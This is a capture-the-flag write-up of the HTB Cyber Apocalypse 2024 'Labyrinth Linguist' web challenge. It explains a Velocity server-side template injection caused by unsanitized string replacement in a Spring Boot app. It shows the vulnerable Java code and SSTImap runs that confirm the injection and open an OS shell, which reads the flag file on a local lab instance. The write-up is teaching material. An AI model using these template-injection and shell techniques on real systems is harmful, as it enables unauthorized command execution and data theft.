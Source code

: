 ```yaml
---
layout: post
title:  "CA CTF - Labyrinth Linguist"
date:   2024-03-14 19:58:58 -0600
categories: ctf cyberapocalypse
tags: htb cyberapocalypse ctf web ssti
description: "Writeup/Solution to Cyber Apocalypse 2024 CTF: Labyrinth Linguist"
---
```


## Scenario

Files provided from HTB are in the [ctf assets](/assets/ctfs).

When we spin up the service with `./docker_build.sh` we recieve a single open http port on `localhost:1337`.
Visiting the site we see this:

![labyrinth linquist](/assets/images/ctf/ca2024/labyrinth-linguist-homepage.png)

You can play around with the text input, it is mapping characters the input characters to the symbols displayed. By default it displays the converted text of `Example text` through a [TrueType](https://en.wikipedia.org/wiki/TrueType) file.

There is a single `index.html` for the webpage and a SpringBoot java file `Main.java` in addition to the unimportant `.tff` file (responsible for holding the custom type font) and some styling.

### Finding the Injection Point

Since there were so few files, this problem was very easy to track down. There is a single function in the `Main.java` file that has the following signature with annotations:

```java
@RequestMapping("/")
@ResponseBody
String index(@RequestParam(required = false, name = "text") String textString) {
```

We can assume (correctly, because I didn't want to read javadocs) that this argument is handling the index page `/` with url parameters `text`. Validating this is simple, we can open the Firefox developer console and see requests being made to `localhost:1337?text=<the text>` whenever the `Submit` button is clicked.

I also did some tinkering and it _does_ seem to work with both `GET` and `POST` requests.

This appears to be the only injection point of any kind so we start looking here.

### Server Side Template Injection (SSTI)

Server Side Template Injection sounds fancy and complicated but its really not. Essentially, some web servers support the ability to generate `.html` (or other) files on the fly. This can be useful for choosing to render different things based on conditions or information that the is different for each user. For example, when you go to your email in the top right it will say "Welcome \<YOUR NAME HERE\>"; the name is different for every user (there are many ways to do this, SST is one of them).

A reason you would want to render a different "page" is because the information is different user to user. So how does this information get into the page? Templating. Templating is taking in a file/string with placeholders and inserting the information that is _different_ per user into those placeholders. Again, think about your email homepage; all the styling is the same for everyone, but your name is your name.

The downside to SST is that well, the server is doing the rendering of data potentially provided by the user. If done incorrectly (a.k.a unsanitized), it can have the side effects, malicious or otherwise.

In our problem, we see these lines that calls the function to render to the template (plus my added comments for context):

```java
//set default text if none is provided in url or from submit form
if (textString == null) {
	textString = "Example text";
}

//create the html file by passing that string to replace a placeholder 
template = readFileToString("/app/src/main/resources/templates/index.html", textString);

//...
//this is the code that renders the template
org.apache.velocity.Template t = new org.apache.velocity.Template();
//... noise to throw us off

//render the template
RuntimeServices runtimeServices = RuntimeSingleton.getRuntimeServices();
StringReader reader = new StringReader(template);
org.apache.velocity.Template t = new org.apache.velocity.Template();
t.setData(runtimeServices.parse(reader, "home"));
t.initDocument();
```

Now, I don't actually know what the _correct_ rendering template function is for SpringBoot, but I _know_ its not `readFileToString`. Sure enough, it's pretty much the only other function in the file.


```java
public static String readFileToString(String filePath, String replacement) throws IOException {
    StringBuilder content = new StringBuilder();
    BufferedReader bufferedReader = null;

    try {
        bufferedReader = new BufferedReader(new FileReader(filePath));
        String line;
        
        while ((line = bufferedReader.readLine()) != null) {
            line = line.replace("TEXT", replacement);
            content.append(line);
            content.append("\n");
        }
    } finally {
        if (bufferedReader != null) {
            try {
                bufferedReader.close();
            } catch (IOException e) {
                e.printStackTrace();
            }
        }
    }

    return content.toString();
}
```

To summarize, this function takes in a file, opens and reads it and **critically** replaces any `TEXT` with the provided `replacement` string.

I actually skimmed over the rest of the file after I saw the non sanitized string replacement code because I had a tool: [SSTI map](https://github.com/vladko312/SSTImap). The tool is meant to check for SSTI at a given url by passing in _normal_ templating data (such as replacing all `{{name}}` with the users name) and seeing what information is possible to get back. A common way to test this is by requesting a simple math problem like {% raw %}`{{7*7}}`{% endraw %} and seeing if {% raw %}`{{7*7}}`{% endraw %} is returned (sanitized by making it a literal string value) or if the server is actually evaluating/executing the code: `49`.

TLDR: Using the tool gives us access via the Velocity Plugin (notice that the code uses `org.apache.velocity.Template`):

```console
$ python3 sstimap.py -u http://localhost:1337?text=bar

    ╔══════╦══════╦═══════╗ ▀█▀
    ║ ╔════╣ ╔════╩══╗ ╔══╝═╗▀╔═
    ║ ╚════╣ ╚════╗  ║ ║    ║{║  _ __ ___   __ _ _ __
    ╚════╗ ╠════╗ ║  ║ ║    ║*║ | '_ ` _ \ / _` | '_ \
    ╔════╝ ╠════╝ ║  ║ ║    ║}║ | | | | | | (_| | |_) |
    ╚══════╩══════╝  ╚═╝    ╚╦╝ |_| |_| |_|\__,_| .__/
                             │                  | |
                                                |_|
[*] Version: 1.2.0
[*] Author: @vladko312
[*] Based on Tplmap
[!] LEGAL DISCLAIMER: Usage of SSTImap for attacking targets without prior mutual consent is illegal.
It is the end user's responsibility to obey all applicable local, state and federal laws.
Developers assume no liability and are not responsible for any misuse or damage caused by this program
[*] Loaded plugins by categories: languages: 5; legacy_engines: 2; engines: 17
[*] Loaded request body types: 4

...
[+] Velocity plugin has confirmed injection with tag '*'
[+] SSTImap identified the following injection point:

  Query parameter: text
  Engine: Velocity
  Injection: *
  Context: text
  OS: Linux
  Technique: render
  Capabilities:

    Shell command execution: ok
    Bind and reverse shell: ok
    File write: ok
    File read: ok
    Code evaluation: no
```

With this success, we rerun it with a "shell" attached:

```console
$ python3 sstimap.py -u http://localhost:1337?text=bar --os-shell
...

[+] Run commands on the operating system.

Linux $ ls /
...
flagcaa7dfddeb.txt

Linux $ cat /flagcaa7dfddeb.txt
HTB{f4k3_fl4g_f0r_t35t1ng}
```

Theres our flag!
